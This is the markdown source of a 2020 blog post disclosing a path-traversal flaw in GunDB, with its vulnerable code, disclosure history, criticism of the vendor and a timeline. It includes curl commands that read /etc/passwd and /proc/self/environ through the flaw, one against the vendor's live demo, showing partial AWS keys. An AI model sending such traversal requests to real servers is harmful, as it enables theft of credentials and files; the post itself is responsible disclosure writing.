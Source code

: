 ```yaml
---
layout:     post
title:      'Serious security vulnerability in GunDB (and new ones)'
date:       2020-01-20 14:30:00
tags:       ['infosec']
permalink:  /2020/01/20/serious-security-vulnerability-in-gundb-and-new-ones/
---
```


Last year I discovered a
[serious security vulnerability](https://github.com/amark/gun/security/advisories/GHSA-886v-mm6p-4m66)
([path traversal](https://wiki.owasp.org/index.php/Relative_Path_Traversal)) that enabled
me to read any file on the server [GunDB](https://gun.eco/) runs in - I was even able to
steal AWS credentials from the demo server.

Contents:

- [Discovery](#discovery)
- [Disclosure](#disclosure)
- [Somebody had actually reported this before](#somebody-had-actually-reported-this-before)
- [Not updating the Docker image](#not-updating-the-docker-image)
- [More vulnerabilities](#more-vulnerabilities)
- [Conclusion](#conclusion)
- [Timeline](#timeline)
- [Further reading](#further-reading)


Discovery
---------

I was having a chat with a buddy of mine about how much I dislike JavaScript, and I
mentioned someone even built a database product with it. I also remember GunDB having
let's say.. "eccentric".. coding style. I went in to browse the code to provide an example.

Pretty much instantly I came upon
[this file](https://github.com/amark/gun/blob/0c02e7615a7c71bf45a7b2926c0ce8e8f1c64015/lib/serve.js#L27),
and at first I thought "huh, it looks like I can read any file, but no it couldn't be this simple..":

	var path = __dirname + '/../' + req.url.split('/').slice(2).join('/'), file;
	try{file = require('fs').readFileSync(path)}catch(e){}
	if(file){
		res.end(file);
		return true;
	}

I tried `$ curl` and sure enough:

	$ curl --path-as-is http://localhost:8765/gun/../etc/passwd
	root:x:0:0:root:/root:/bin/ash
	bin:x:1:1:bin:/bin:/sbin/nologin
	...

The `--path-as-is` is needed so CURL doesn't normalize the path to `/etc/passwd` - remember
this because this'll come back later in this post.

They also had a demo instance of GunDB running in Heroku, so I tried it also:

	$ curl --path-as-is http://gunjs.herokuapp.com/gun/../proc/self/environ
	DYNO=web.1
	AWS_S3_BUCKET=gunjs.herokuapp.com
	AWS_ACCESS_KEY_ID=AKIAJUFG...
	AWS_SECRET_ACCESS_KEY=GF55d...
	...

My jaw hit the floor. I was this easily able to steal their AWS credentials. Knowing their
security practices, I fear those were AWS root keys and I could've done some serious damage.

This is where I stopped exploring - obviously I didn't want to attack any actual users.


Disclosure
----------

I had to research about
[responsible disclosure](https://en.wikipedia.org/wiki/Responsible_disclosure).

I contacted the vendor, Mark. He seems like a nice person, and was appreciative of my
disclosure. I told I didn't use the AWS keys I got ahold of, but that they should be
considered compromised and revoked ASAP.

We had some back-and-forth with suggestions on how to handle it.

The thing I didn't appreciate was that the vendor's disclosure idea was hiding it deep
inside the documentation hierarhy under a link named "curl --path-as-is" (see
[now-removed document](/images/2020/gundb-curl-as-is.pdf)). I explained:

> Thoughts about the document:
> 
> - The entire point is for as big part of GUN's userbase as possible to find and understand the problem, so they can protect themselves by updating.
> - Title is the most important part of a page. "curl --path-as-is" as a title looks like "meh, I don't care" to any possible users - they won't open the page.
> - How can users find this security advisory page from the documentation? I didn't find it from the page hierarchy.
> - "Who Was Effected? Only people using a NodeJS server with something like ..." is downplaying the issue. Your list basically includes all of the server-side usecases of GUN. Maybe people who only use parts of GUN as a library in their apps aren't vulnerable - but those would be really rare exception.
> - I'd recommend you use GitHub's security advisory feature to publish this, so it has the maximal chance of warning people who still haven't upgraded.

After this the vendor implemented my suggestions (and some additional ones):

- [GitHub security advisory](https://github.com/amark/gun/security/advisories/GHSA-886v-mm6p-4m66)
- [Twitter tweet](https://twitter.com/marknadal/status/1136014285799215104)
- He said he also announced about it in a chat room


Somebody had actually reported this before
------------------------------------------

JK0N had actually discovered this and
[offered a ready fix](https://github.com/amark/gun/pull/527) on a silver plate before, but
vendor "did not understand the --path-as-is condition" and clearly didn't understand how
serious this vulnerability is.


Not updating the Docker image
-----------------------------

GunDB's GitHub frontpage advertizes Docker as a first-class citizen:

![](/images/2020/gundb-docker.png)

.. so I find it reckless that 150+ days since my disclosure,
[the Docker image was still vulnerable](https://github.com/amark/gun/issues/812). There's
nothing wrong if
[the project maintainer doesn't know how to work with Docker](https://github.com/amark/gun/issues/812#issuecomment-530046388),
but it's very wrong to let your users think Docker channel is supported and maintained, and
keep distributing serious vulnerability for 150+ days.

The very least I would've expected the maintainer to do is to stop advertizing the Docker
channel as a first-class citizen if serious vulnerabilities come by and are not fixed.
Even better would have been to put up a warning sign saying that Docker channel is unmaintained.


More vulnerabilities
--------------------

Now that I finally got around to writing this post, I decided to take one more glance to
see if there are more glaring security problems, and sure enough under 90 minutes I discovered
and filed more issues:

- [Arbitrary file read vulnerability under GUN root directory](https://github.com/amark/gun/issues/881) -
  **the whole database's raw on-disk files are world-readable**.
- [Same unfixed vuln that this blog post is about in another file (example websocket server)](https://github.com/amark/gun/issues/880)
- Vulnerability in Gist linked from README which might be artefact of people copy-pasting
  original vulnerable code around - made worse by this Gist being publicized in README.
  (I mentioned this in above linked issue's description).

Who knows how much issues there are, when security is thought as a cost center.


Conclusion
----------

When I reported the bug, I recommended to have a security person review the fix before it's
published. The vendor said he didn't know any.

I find it odd that a project with
[practically one programmer](https://github.com/amark/gun/graphs/contributors) and
[2.6 million USD in funding](https://www.crunchbase.com/organization/gun-2) (that we know
of) can't afford to have a security-conscious person in the team OR have audits done.
Security should be important,
especially if the vendor is boasting that users include
[the Dutch Navy](https://techcrunch.com/2018/05/23/gun-raises-more-than-1-5m-for-its-decentralized-database-system/)
or the [Internet Archive](https://www.bleepingcomputer.com/news/technology/archiveorg-has-created-a-decentralized-or-dweb-version-of-their-site/).

In summary, this happened:

- There was a serious vulnerability (which in itself is fine - these things happen)
- Vendor downplayed said vulnerability and didn't properly reach out to users
- Vendor left one of the first-class citizen distribution channels vulnerable for 150+ days
- Someone had reported and offered a fix on a silver plate, but vendor did not understand
- I feel like I had to do a lot of hand-holding to get users secured - which should not be
  my job, especially since I was not compensated in any way.
- There still are unfixed vulnerabilities of same type (path traversal) in other parts of code.
- Just a cursory glance revealed more serious vulnerabilities.

Therefore I would conclude: if security is important to you, I don't recommend using GunDB.
If you really need to use GunDB, you yourself should have an in-house security person to
secure GunDB, because the vendor doesn't make security a priority.


Timeline
--------

| T±   | Action |
|------|--------|
| -364 days | Someone else had discovered (and offered a fix to) the bug |
| -0 days   | I discovered the bug (2019-04-09) |
| +0 days   | I disclosed it to the vendor |
| +0 days   | Vendor replied |
| +5 days   | Vendor had a patch (2019-04-14) |
| +55 days  | Vendor disclosed it by hiding it deep in the docs and downplaying it (2019-06-03) |
| +57 days  | Vendor disclosed in more public fashion due to my suggestion |
| +154 days | Vendor still hadn't updated their official Docker image (2019-09-10) |


Further reading
---------------

- [Recent really serious Citrix path traversal vulnerability codenamed "Shitrix"](https://www.zdnet.com/article/proof-of-concept-code-published-for-citrix-bug-as-attacks-intensify/)
